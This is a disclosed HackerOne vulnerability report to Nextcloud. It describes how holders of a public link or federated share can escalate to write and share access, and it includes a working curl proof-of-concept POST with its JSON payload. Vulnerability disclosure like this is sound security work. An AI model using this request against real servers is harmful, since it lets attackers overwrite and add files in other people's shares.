 # Attacker can obtain write access to any federated share/public link

## Report Details
- **Report ID**: 1170024
- **URL**: https://hackerone.com/reports/1170024
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-04-20T20:48:20.362Z
- **Disclosed**: 2021-06-10T13:41:19.545Z

## Reporter
- **Username**: rtod
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Hi mates,

I stumbled across this with public links. But the same holds true for any federated share. I will try to describe the link scenario.
At first I thought there were more steps (and resharing was involved). But it really is very simples:

1. An attacker obtains a public link (again plenty of those around). For the sake of the attack it is a read only public link
2. The attacker uses the 'add to my nextcloud' functionality to have a federated share created to their own instance
3. The attacker accepts this share
4. Now the attacker checks their database and finds the entry in the `oc_share_external` table.

We are looking for really only the remote id. And the token.
For the sake of this example the `remote id = 2` and the `token = nOxdNJkb1xbI1VX`

5. Now we craft our request

```
curl -v -X POST http://localhost/index.php/ocm/notifications -d '{"notificationType":"RESHARE_CHANGE_PERMISSION","resourceType":"file","providerId":2,"notification":{"sharedSecret":"nOxdNJkb1xbI1VX","permission":["read","write","share"]}}' -H 'Content-type: application/json'
```

To break this down.
We send an (anonymous) POST request to the victims server to be precise to index.php/ocm/notifications
And we pass it the following json

```json
{
   "notificationType":"RESHARE_CHANGE_PERMISSION",
   "resourceType":"file",
   "providerId":2,
   "notification":{
      "sharedSecret":"nOxdNJkb1xbI1VX",
      "permission":[
         "read",
         "write",
         "share"
      ]
   }
}
```

6. The attacker now enjoys their federated share with READ+WRITE+UPDATE+CREATE+SHARE access. (I think it is probably even a bug that there is no way to grant DELETE).


Since we create a federated share at step 1. This also holds true for any created federated share.

## Impact

In short if an attacker has a public link. Or a federated share with them they can elevate their permissions very easily.

This allows them to overwrite files. Add new files. And so on. In short the integrity of all files in public links and federated shares should be considered compromised.

Pardon my directness. But you really should take a serious look at your federation code. As it seems to miss checks all over the place. Maybe recommending everybody to disable it for now is the best course of action.

## Attachments
No attachments

